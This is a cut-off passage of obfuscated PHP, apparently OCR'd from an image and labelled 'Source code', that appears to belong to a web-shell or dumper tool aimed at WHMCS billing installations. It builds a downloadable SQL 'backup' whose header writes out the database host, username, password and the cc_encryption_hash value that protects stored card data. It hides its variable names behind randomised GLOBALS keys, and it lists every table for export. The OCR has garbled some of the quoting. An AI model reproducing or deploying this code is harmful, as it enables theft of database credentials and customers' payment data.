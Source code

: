 	-- password:".${$gmsocvoc}."
	-- cc_hash:".$_COOKIE["cc_encryption_hash"]."
-- ------------------------------
".${${"GLOBALS"}["vrhzemxpyci"]}));header("Content-type: text/plain");header("Content-Disposition: attachment; filename=".$_SERVER["HTTP_HOST"]."-$date.sql");echo"-- --------WHMCS BACKUP ----------------
	-- host:".${${"GLOBALS"}["niecnejwfmy"]}."
	-- username:".${${"GLOBALS"}["cxojuijvhke"]}."
	-- password:".${${"GLOBALS"}["qkmhvrcw"]}."
	-- cc_hash:".$_COOKIE["cc_encryption_hash"]."
-- ------------------------------
".${${"GLOBALS"}["pifbdbampdc"]};}echo"<script language=\"JavaScript\">

function checkAll(form){

  for (var i = 0; i < form.elements.length; i++){

    eval(\"form.elements[\" + i + \"].checked = form.elements[0].checked\");

  }

}

</script>";${${"GLOBALS"}["oopdhffk"]}=@mysql_query("SHOW TABLE STATUS");echo"<form name="formw\" method="post\">

<input name=\"action\" type=\"hidden" value=\"yes\">

<table width=\"280\" border="1\" align="center" cellpadding=\"4" cellspacing="0" >

    <tr>

      <td align="center\" height=\"28\" width="35\"><input name="tableall" type="checkbox" checked="checked\" onClick=\"checkAll(this.form)\"/></td>

      <td align="center\" width="130\">Tabel Name</td>

      <td width=\"100"><div align=\"center\">Size</div></td>

    </tr>";while(${${"GLOBALS"}["ngjywjqkzjlf"]}=@mysql_fetch_array(${${"GLOBALS"}["iythzoxdsfo"]})){${${"GLOBALS"}["dlsibicfnkg"]}=round(${${"GLOBALS"}["ngjywjqkzjlf"]}["Data_length"]/1024,2);echo" <tr><td>";echo"<input type=\"checkbox" name=\"tablen[]" value="$table[Name]\" checked="checked" />";echo"</td>

      <td><b>";${"GLOBALS"}["dxyntpihcw"]="size";echo${${"GLOBALS"}["ngjywjqkzjlf"]}[Name];echo"</b></td>

      <td><div align=\"center\"> kb <b>";echo${${"GLOBALS"}["dxyntpihcw"]};echo"</b></div></td>

    </tr>";}echo"
</table> <br>

<center><input type=\"submit\" name="submit2\" class="buttons\" value=\"[download backup ]\" /></center>
